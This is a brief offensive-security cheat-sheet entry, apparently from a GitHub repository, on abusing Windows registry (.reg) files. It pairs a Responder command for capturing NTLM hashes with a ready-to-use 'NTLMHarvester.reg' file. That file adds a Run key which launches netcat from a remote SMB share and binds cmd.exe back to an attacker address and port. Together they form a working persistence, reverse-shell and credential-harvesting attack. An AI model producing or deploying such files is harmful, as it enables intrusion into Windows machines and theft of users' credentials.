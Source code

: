 A Registry file allows users to add or modify registry entries in Windows. Malicious .reg files can execute commands or set configurations that may compromise the system's security.

## ⭐ Attacker


```
sudo responder -w -I tun0
```
## 🌙 Victim Name of file: NTLMHarvester.reg


```
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run]
"NTLMHarvester"="\\\\10.10.14.4\\tools\\nc.exe -e cmd.exe 10.10.14.4 4444"
```
